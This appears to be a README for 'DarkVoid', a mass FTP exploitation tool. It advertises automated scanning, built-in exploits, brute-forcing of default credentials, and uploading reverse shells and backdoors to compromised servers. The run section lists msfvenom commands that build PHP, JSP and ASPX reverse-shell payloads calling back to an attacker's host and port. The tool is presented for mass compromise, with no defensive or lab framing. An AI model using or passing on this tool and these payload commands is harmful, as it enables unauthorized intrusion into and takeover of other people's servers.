 
████████▄     ▄████████    ▄████████    ▄█   ▄█▄       ▄█    █▄   ▄██████▄   ▄█  ████████▄  
███   ▀███   ███    ███   ███    ███   ███ ▄███▀      ███    ███ ███    ███ ███  ███   ▀███ 
███    ███   ███    ███   ███    ███   ███▐██▀        ███    ███ ███    ███ ███▌ ███    ███ 
███    ███   ███    ███  ▄███▄▄▄▄██▀  ▄█████▀         ███    ███ ███    ███ ███▌ ███    ███ 
███    ███ ▀███████████ ▀▀███▀▀▀▀▀   ▀▀█████▄         ███    ███ ███    ███ ███▌ ███    ███ 
███    ███   ███    ███ ▀███████████   ███▐██▄        ███    ███ ███    ███ ███  ███    ███ 
███   ▄███   ███    ███   ███    ███   ███ ▀███▄      ███    ███ ███    ███ ███  ███   ▄███ 
████████▀    ███    █▀    ███    ███   ███   ▀█▀       ▀██████▀   ▀██████▀  █▀   ████████▀ V1.2

Mass FTP exploitation tool, automates vulnerbility scanning and exploiting FTP servers.

Features:
- Detects FTP service version and alerts you if server is vulnerable to RCE(Remote Code Execution)
- Automatic exploitation
- Built in exploits
- Tries anonymous login
- Tries to upload a shell if anonymous login is successful
- Bruteforce default creds
- If bruteforce is successful program will try and upload a reverse shell through FTP for every cracked account
- Logs cracked user accounts and compromise FTP server via backdoor shell
- [*New Feature] Identifies webserver version and serves payload based on accepted webserver file types
- [*New Feature] Updated UI design
- [*New Feature] Added CVE-2012-1823 

Supports:
- All operating systems running python enviroment
- Exploit support for Pureftp,Proftp and vsFTP
- Exploits for Windows and Linux

TODO:
- Add more exploits
- Test proFTPD 1.3.2rc3 exploit 

Run 
==============
Add targets to Files/targets.txt
Generate payloads in DarkVoid directory before running scipt

msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php Create a JSP reverse shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp Create a ASPX reverse shell
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f aspx > shell.aspx


